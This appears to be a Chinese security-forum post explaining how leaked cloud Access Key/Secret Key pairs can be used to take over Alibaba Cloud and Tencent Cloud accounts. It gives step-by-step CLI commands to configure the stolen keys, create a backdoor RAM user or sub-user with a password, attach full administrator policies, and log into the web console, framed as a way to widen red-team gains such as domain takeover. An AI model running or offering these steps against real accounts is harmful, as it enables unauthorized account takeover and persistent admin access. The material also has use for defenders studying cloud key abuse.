


# 如何利用官方工具+ak，sk 接管云平台 - 先知社区

如何利用官方工具+ak，sk 接管云平台

- - -

## 如何通过 ak，sk 登录云平台

在云计算中，AK（Access Key）和 SK（Secret Key）通常用于进行 API 调用，以便访问和管理云服务资源。这些密钥对于安全性至关重要，因为它们允许对云资源执行各种操作。如果泄露或不当使用，可能会导致严重的安全风险和数据泄露。  
而在实战中，大部分文章基本是什么工具一把嗦嗦哈，看 oss，rds，ecs，其实如果 ak，sk 权限过大，是可以创建子用户来登录云管的，说不定登进去就能接管域名，im 服务等扩大攻防成果。

下面介绍腾讯云，阿里云的接管方式，其他云大差不差，看官方文档就能搞

## 阿里云

阿里云有一个 ram 账号，可以看看他的官方介绍

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202172319-b3f58572-c1ac-1.png)

RAM 用户由阿里云账号（主账号）或具有管理员权限的其他 RAM 用户，同时 ram 账号可以用 ak，sk 进行调用 api 创建  
根据阿里云官方的命令行工具[https://github.com/aliyun/aliyun-cli/blob/master/README-CN.md](https://github.com/aliyun/aliyun-cli/blob/master/README-CN.md)

配置 ak sk

```plain
./aliyun configure --profile akprofile
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202172334-bd2fc7f6-c1ac-1.png)

创建 ram 账号

```plain
查看别名
./aliyun ram GetAccountAlias
常见账号
./aliyun aliyun ram CreateUser --UserName SxfnbQaxsb2333
设置密码
./aliyun ram CreateLoginProfile --UserName SxfnbQaxsb2333 --Password 123456
设置权限
./aliyun ram AttachPolicyToUser --PolicyType System --PolicyName AdministratorAccess --UserName SxfnbQax**2333
```

创建好账号后，查看该云的别名

```plain
./aliyun ram GetAccountAlias 获取 id 放在域名后面
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202172350-c65ceeb2-c1ac-1.png)

登录账号为  
创建的用户@+别名+.onaliyun.com  
然后就可以用这个账号正常登录阿里云，和你自己账号登录阿里云一样

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202172359-cbe3a6e6-c1ac-1.png)

## 腾讯云

腾讯云也一样，只不过叫法不同，腾讯云叫子用户，与阿里云不同的是，腾讯云登录子用户需要主账号 id 才可以

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202172421-d8e22a5c-c1ac-1.png)

我们下载其官方命令行工具[https://github.com/TencentCloud/tencentcloud-cli](https://github.com/TencentCloud/tencentcloud-cli)

查看命令行命令

```plain
获取主用户 id
tccli cam GetUserAppId --cli-unfold-argument
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202172431-deebf4a0-c1ac-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202172444-e6b57e4a-c1ac-1.png)

```plain
创建子用户
tccli cam AddUser –cli-unfold-argument --Name Sxfnb2333 --Remark sxf --ConsoleLogin 1 --Password '123456' --NeedResetPassword 0
查询策略
tccli cam ListPolicies --cli-unfold-argument
给最高权限
tccli cam AttachUserPolicy --cli-unfold-argument --PolicyId 1 --AttachUin 100035117703
列出子用户
tccli cam ListUsers --cli-unfold-argument
```

创建好后然后去登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202172451-eab23574-c1ac-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202172458-eef20c5e-c1ac-1.png)
